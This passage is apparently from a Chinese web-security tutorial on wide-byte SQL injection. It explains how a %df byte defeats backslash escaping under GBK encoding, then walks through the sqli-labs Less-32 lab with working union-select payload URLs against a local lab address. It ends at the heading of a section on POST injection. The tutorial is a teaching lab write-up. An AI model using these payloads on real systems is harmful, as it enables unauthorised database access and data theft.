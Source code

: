 mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ascii码要大于128，才到汉字的范围）php的魔术引号(magic_quotes_gpc)开启，会在特殊字符（比如 ' , " , \ , null）前面加 \ ，导致闭合失败。

PHP5.4.0及其之后PHP版本取消了魔术引号，之后转义都需要加上addslashes函数 (stripslashes删除反斜杠\)

### 3.6.2.**注入思路**

%df 吃掉 \ 具体的原因是 urlencode(‘\) = %5c%27，我们在%5c%27 前面添加%df，形成%df%5c%27，而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此时%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。 

将 \’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c 给注释掉。这也是bypass的一种方法。

### 3.6.3.**案例**sql-labs-less-32 宽字节

#### 3.6.3.1.**判断注入点**

?id=1 and 1=2 正常

到这里就可以判断不是数值型注入。

?id=1' and 1=2 正常

........一直都是正常的？

通过提示发现下面的输出的内容出现了反斜杠进行了转义，同时还会将查询的字符转化为16进制输出，这里就可以想到使用宽字节注入进行尝试。

宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码是%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

URL:http://192.168.10.150/sqlilabs/Less-32/?id=1%df' and 1=2--+

![img](https://s2.loli.net/2023/03/12/ZIsqNSyt3lxd7rA.jpg) 

#### 3.6.3.2.**判断字段数字**

下面就是使用联合查询进行注入。

URL：http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' order by 4--+

![img](https://s2.loli.net/2023/03/12/CsotRWcyQkXMi1m.jpg) 

#### 3.6.3.3.**判断显示位**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,2,3--+

![img](https://s2.loli.net/2023/03/12/IrKjxeNW3kM2XEG.jpg) 

#### 3.6.3.4.**确定数据库名**

URL:http://192.168.10.150/sqlilabs/Less-32/?id=-1%df' union select 1,database(),3--+

![img](https://s2.loli.net/2023/03/12/8ywfEPZX3HLJdbW.jpg) 

也可以使用其他的方式进行注入，例如结合报错。

## 3.7.**post注入**

### 3.7.1.**post注入基本概念**
